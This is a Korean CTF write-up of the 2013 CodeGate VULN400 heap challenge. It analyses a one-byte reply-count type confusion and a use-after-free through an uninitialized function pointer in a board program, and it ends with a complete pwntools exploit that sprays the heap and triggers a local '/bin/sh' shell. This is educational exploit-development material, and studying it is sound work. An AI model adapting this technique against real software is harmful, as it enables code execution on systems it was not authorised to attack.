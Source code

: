# [2013_CodeGate] \[PWN] VULN400

### 환경

```
[*] '/root/bob/E04/ass02'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```



### 문제 파악

```
 _______________________________ 
/==============================/ 
|     Onetime Board Console    | 
/------------------------------/ 
|          | WELCOME |         | 
|__________|_________|_________| 
|          W  a  i   t         | 
++++++++++++++++++++++++++++++++ 
1. Write
2. Read
3. Exit
=>
```

게시물 작성, 읽기 , 삭제, 댓글 등의 기능이 있는 프로그램이다.

이상한 점은 게시물 생성시 댓글이 자동적으로 생성된다는 점, 하지만 댓글이 있는 게시물은 삭제가 안된다는 점이다. 

별 쓸모는 없지만 getchar() 뒤에 fflush()를 해주지 않아서 버그가 발생하기도 한다.



###취약점1 - Type Confusion

```c
int __cdecl delete_8048F82(post *a1)
{
  int result; // eax@2
  reply *i; // [sp+18h] [bp-10h]@4

  if ( SLOBYTE(a1->this) <= 0 )
  {
    *(_DWORD *)(a1->before + 4) = a1->next;
    *(_DWORD *)(a1->next + 8) = a1->before;
    if ( a1->field_28 == 0xDEADBEEF )
    {
      for ( i = (reply *)a1->reply; i->next; i = (reply *)i->next )
      {
        i->func1 = (int)sub_80487AC;
        i->func2 = (int)sub_80487C4;
      }
    }
    result = ((int (__cdecl *)(post *))a1->bbbb)(a1);
  }
  else
  {
    result = puts("Cannot Deleted. There's at least one or more replies on it");
  }
  return result;
}
```

첫번째 if문에서 값을 1바이트만 확인하는데 만약 댓글을 0xff+1개를 쓰게되면 값이 0x100이 되어 조건문을 만족시킬 수 있습니다.



 ### 취약점2 - UAF

취약점1의 소스코드에서 a1->bbbb에 있는 함수를 호출합니다. 

```c
void __cdecl sub_8048962(post *ptr)
{
  reply *v1; // [sp+14h] [bp-14h]@1
  signed int i; // [sp+18h] [bp-10h]@1

  v1 = ptr->reply;
  for ( i = 0; i <= 1; ++i )
  {
    if ( v1->func2 != sub_80487C4 )
    {
      puts("Detected");
      exit(1);
    }
    v1 = v1->next;
  }
  while ( v1->next )
  {
    (v1->func2)(v1->content);
    v1 = v1->next;
  }
  free(ptr->author);
  free(ptr->title);
  free(ptr->content);
  free(ptr);
}
```

함수 내용을 보면 while문 안에서 v1->func2의 함수를 호출합니다. 그런데 취약점1의 소스코드에서 (a1->field_28 == 0xDEADBEEF) 조건을 만족시키지 않으면 v1->func2가 초기화되지 않습니다. 이 조건은 게시물을 modify하게 되면 무력화됩니다.



### 시나리오

1. 게시물 3개 생성(#1,2,3)
2. 게시물에는 8000바이트의 내용을 넣을 수 있는데 \#2의 내용에 Heap Feng Shui를 만들어 둠.
3. \#2에 0xff개의 댓글 생성(첫번째 댓글은 게시물이 생성되면 자동적으로 생성됨)
4. \#2 삭제
5. 개시물 2개 생성(#4, #5)
6. \#4는 기존의 #2가 있던 힙 영역을 채울 것이며 #5는 Heap Feng Shui자리를 채우게 됨
7. \#4에 댓글을 0xff개 만큼 작성하고 게시물을 수정한 후, 삭제시키면 초기화되지 않은 함수가 호출됨. (Heap Feng Shui에 시스템 콜을 넣어놓으면 된다는 얘기)



### Exploit

```python
from pwn import *

def writePost(author,title,content):
	p.recv()
	p.sendline('1')
	p.recv()
	p.sendline(author)
	p.recv()
	p.sendline(title)
	p.recv()
	p.sendline(content)

def writeReply(idx,content):
	p.recv()
	p.sendline('2')
	p.recv()
	p.sendline(str(idx))
	p.recv()
	p.sendline('3')
	p.recv()
	p.sendline(content)
	p.recv()
	p.sendline('4')

def modifyPost(idx,author,title):
        p.recv()
        p.sendline('2')
        p.recv()
        p.sendline(str(idx))
        p.recv()
        p.sendline('2')
        p.recv()
        p.sendline(author)
        p.recv()
        p.sendline(title)
        p.recv()
        p.sendline('4')

def deletePost(idx):
        p.recv()
        p.sendline('2')
        p.recv()
        p.sendline(str(idx))
        p.recv()
        p.sendline('1')
        p.recv()
        p.sendline('4')

p = process('./ass02')

writePost("1","1","1")
writePost("2","2",p32(0x080487C4)*1000+p32(0x08048630)*1000)
writePost("3","3","3")
for i in range(0xff):
	writeReply(2,str(i))
deletePost(2)
writePost("4","4","4")
writePost("5","5","5")
for i in range(0xff):
        writeReply(4,"/bin/sh")
modifyPost(4,"aa","bb")
deletePost(4)



p.interactive()
```

